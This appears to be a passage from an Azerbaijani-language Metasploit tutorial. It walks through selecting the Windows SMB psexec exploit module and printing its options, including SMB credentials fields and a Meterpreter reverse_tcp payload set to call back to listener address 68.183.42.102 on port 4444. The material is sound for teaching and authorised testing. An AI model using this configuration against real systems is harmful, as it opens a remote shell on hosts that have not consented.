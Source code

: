 Modulu seçdikdən sonra, promptda ətrafımızdakı xüsusi parametrlərə əsasən modulu konfiqurasiya etmək imkanı verən bir dəyişiklik görəcəyik.

#### Seçim Seçimi

```bash
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) >
```

Diqqət edin ki, **exploit** mötərizənin xaricindədir. Bu, MSF modul növünün bir exploit olduğunu və xüsusi exploit və payloadın Windows üçün yazıldığını göstərir. Hücum vektoru **SMB**-dir və **Meterpreter** payloadı **psexec** istifadə edilərək çatdırılacaq. Bu exploitdən istifadə etmək və payloadı çatdırmaq haqqında daha çox məlumat əldə etmək üçün **options** əmrindən istifadə edək.

#### Exploit Seçimlərinin Tədqiqi

```bash
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
